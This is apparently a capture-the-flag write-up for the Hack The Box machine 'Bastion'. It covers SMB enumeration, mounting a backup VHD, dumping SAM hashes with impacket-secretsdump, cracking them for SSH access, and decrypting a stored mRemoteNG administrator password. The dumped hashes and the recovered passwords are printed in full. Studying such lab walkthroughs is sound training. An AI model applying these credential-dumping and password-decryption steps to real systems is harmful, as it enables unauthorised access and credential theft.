 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/71b37b2e-e90f-4252-8fef-451b2a940875)![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2f91bf10-8203-4873-89d6-b90cb3f64953)

first enumeration with nmap 

```shell
# Nmap 7.94 scan initiated Sun Jul 30 17:12:19 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,135,139,445,5985,47001 -Pn 10.10.10.134
Nmap scan report for 10.10.10.134
Host is up (0.18s latency).

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc       Microsoft Windows RPC
139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp   open  Ö²pÓU      Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-30T18:12:38+02:00
| smb2-time: 
|   date: 2023-07-30T16:12:37
|_  start_date: 2023-07-30T16:03:20
|_clock-skew: mean: -39m57s, deviation: 1h09m13s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 30 17:12:46 2023 -- 1 IP address (1 host up) scanned in 27.69 seconds
```
cool let's enumerate smb 

### Enumerating SMB server 

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/HTB/Basiton]
└─$ smbclient -L 10.10.10.134 -N            
                                                                              
        Sharename       Type      Comment
        ---------       ----      -------      
        ADMIN$          Disk      Remote Admin
        Backups         Disk                                                  
        C$              Disk      Default share                                                                                                             
        IPC$            IPC       Remote IPC         
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available                                                                                                       
```
first we check for anonymous available shares, we can see the Backups share 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b0e5bc5f-5a0a-4b6e-95e4-29904fdfdc5a)

mount the smbshare into our kali machine.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7cc247f6-68fd-4b8e-a1b5-9c1fb49f99e9)

checking the content of `note.txt` not much info, just talking about transfers of backups. let's look around.

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/…/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
└─$ ls -al
total 5330560
drwxr-xr-x 2 root root          0 Feb 22  2019 .
drwxr-xr-x 2 root root          0 Feb 22  2019 ..
-rwxr-xr-x 1 root root   37761024 Feb 22  2019 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
-rwxr-xr-x 1 root root 5418299392 Feb 22  2019 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
-rwxr-xr-x 1 root root       1186 Feb 22  2019 BackupSpecs.xml
-rwxr-xr-x 1 root root       1078 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
-rwxr-xr-x 1 root root       8930 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
-rwxr-xr-x 1 root root       6542 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
-rwxr-xr-x 1 root root       2894 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
-rwxr-xr-x 1 root root       1488 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
-rwxr-xr-x 1 root root       1484 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
-rwxr-xr-x 1 root root       3844 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
-rwxr-xr-x 1 root root       3988 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
-rwxr-xr-x 1 root root       7110 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
-rwxr-xr-x 1 root root    2374620 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
```
in the `WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351` directory, we got some files in .`vhd` and `.xml` let's check online how to extract `.vhd` file. first we need to install:

```
apt-get install libguestfs-tools
apt-get install guestmount
```

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/HTB/Basiton]
└─$ sudo guestmount --add mnt/WindowsImageBackup/L4mpje-PC/"Backup 2019-02-22 124351"/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro mnt/vhd
[sudo] password for n16hth4wk:

┌──(root㉿n16hth4wk-sec)-[/home/…/HTB/Basiton/mnt/vhd]
└─# ls
'$Recycle.Bin'   config.sys                pagefile.sys   ProgramData      Recovery                     Users
 autoexec.bat   'Documents and Settings'   PerfLogs      'Program Files'  'System Volume Information'   Windows
```
cool we mount the vhd file and extracted it contents. checking around got nothing,

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/6850ab55-8eb6-472e-881c-0f2f0278c3e9)

checking the `Windows/System32/config` for SAM and SYSTEM so we can get NTLM hashes from there. 

```shell
┌──(root㉿n16hth4wk-sec)-[/home/n16hth4wk/Documents/HTB/Basiton]
└─# impacket-secretsdump -sam SAM -system SYSTEM local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 
```
cool we got the hashes for user `L4mpje`. let's crack it

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/faab337a-a188-4709-ba8d-8c85d04c505e)

cracked the hash using hashcat. we got `bureaulampje` as the password. let's try login ssh using `L4ampje:bureaulampje`

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/095ff0b8-b5a8-4d18-acf2-eaf8985ccc04)

Bankai!!! we are in.


## Privilege Escalation

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c839a253-1412-4091-ad2a-c57673e54cdc)

checking for installed applications, we can see `mRemoteNG`. let's try exploit this app.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7c380697-ec40-451e-ac9e-2ea27400a91b)

navigate to the appdata dir.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/dceeebeb-0fe9-4304-9382-38280e7db4c2)

checking the content `confCons.xml` file we can see the administrator password enc text.

```
Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1b952d23-94b8-4fc8-aa9b-e87151a19b50)

found a decryptor tool to crack the enc text [Tool](git clone https://github.com/haseebT/mRemoteNG-Decrypt.git). 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/631e9da7-9c03-4705-bf1f-0406526e900f)

decrypted the password success. `thXLHM96BeKL0ER2`. let's try ssh as administrator using this password.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e71ddcb0-3dee-44f6-a1ba-b4672709da19)

and we are through 



